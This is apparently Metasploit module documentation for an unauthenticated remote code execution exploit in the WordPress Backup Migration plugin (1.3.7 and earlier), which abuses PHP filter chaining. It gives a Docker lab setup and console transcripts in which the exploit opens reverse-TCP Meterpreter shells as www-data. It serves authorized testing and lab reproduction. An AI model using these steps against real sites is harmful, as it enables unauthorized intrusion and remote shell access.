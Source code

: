 ## Vulnerable Application

This module exploits an unauth RCE in the WordPress plugin: Backup Migration (<= 1.3.7).  The vulnerability is
exploitable through the Content-Dir header which is sent to the /wp-content/plugins/backup-backup/includes/backup-heart.php endpoint.

The vuln makes use of a neat technique called PHP Filter Chaining which allows an attacker to prepend
bytes to a string by continuously chaining character encoding conversion. This allows an attacker to prepend
a PHP payload to a string which gets evaluated by a require statement, which results in command execution.

## Setup

Spin up a Wordpress instance by running `docker-compose up` in the same directory as the `docker-compose.yml` file below:

```
version: "3"
  # Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "5555:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:5555
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
  # Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./:/var/www/html"]
volumes:
  mysql: {}
```

Download the vulnerable Backup Migration plugin: `https://downloads.wordpress.org/plugin/backup-backup.1.3.7.zip`.
Navigate to `http://localhost:5555` and you'll be redirected and asked to setup the WordPress site. This includes
setting a username, password, email address for the admin user etc. Once the setup is complete login as the newly created
admin user and via the options on the left side of the screen navigate to the `Plugins` and select `Add New`. Upload the
`backup-backup.1.3.7.zip` file. You should now see `Backup Migration` in the list of Plugins, select `Activate` on the
plugin. You should now have a vulnerable instance running.

## Options
No options

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress application.

## Scenarios
### Backup Migration Plugin version: 1.3.7 (Containerized WordPress Version 6.5.3)

Using `php/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rhosts 192.168.1.36
rhosts => 192.168.1.36
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rport 5555
rport => 5555

msf6 exploit(multi/http/wp_backup_migration_php_filter) > options

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.36     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      5555             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory


msf6 exploit(multi/http/wp_backup_migration_php_filter) > exploit 

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (39927 bytes) to 172.18.0.3
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 172.18.0.3:50136) at 2024-08-24 17:04:19 +0200

meterpreter > sysinfo 
Computer    : e409ace0b2a9
OS          : Linux e409ace0b2a9 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > getuid 
Server username: www-data
meterpreter >
```

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > exploit 

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 8 opened (192.168.1.36:4444 -> 172.18.0.3:48014) at 2024-08-24 17:06:58 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 12.5 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: www-data
meterpreter > 
```
